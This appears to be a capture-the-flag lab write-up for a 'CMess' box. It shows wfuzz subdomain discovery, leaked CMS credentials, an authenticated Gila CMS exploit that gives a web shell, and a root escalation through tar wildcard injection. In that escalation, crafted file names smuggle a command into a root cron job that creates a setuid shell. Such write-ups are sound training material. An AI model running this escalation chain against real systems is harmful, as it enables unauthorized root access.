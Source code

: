 http://10.10.63.213/

```
Powered by Gila CMS

```


GILA CMD Version:
`1.10.9`

## wfuzz
#wfuzz
```
wfuzz -c -f sub-fighter -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.htm"


subdomain found: dev.cmess.thm
```

Subdomains:
`dev.cmess.thm`
## Credentials found
```
andre@cmess.thm
KPFTN_f2yxe%
```
use creds above to login to /admin

## Exploit found 
authenticated explloit using andre's login to the CMS application
https://www.exploit-db.com/exploits/51569

Shell access  as `www-data`

```
www-data@cmess:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

## Credentials found using linpeas
```
www-data@cmess:/var/www/html/tmp$ cat /opt/.password.bak 
andres backup password
UQfsdCB7aAP6
```

## ssh as andre
```
andre@cmess:~/backup$ sudo -l
[sudo] password for andre: 
Sorry, user andre may not run sudo on cmess.
```

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > ./backup/shell.sh
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec='sh ./shell.sh'

# wait for cron job to run by root
$ /tmp/bash -p
# whoami
root
```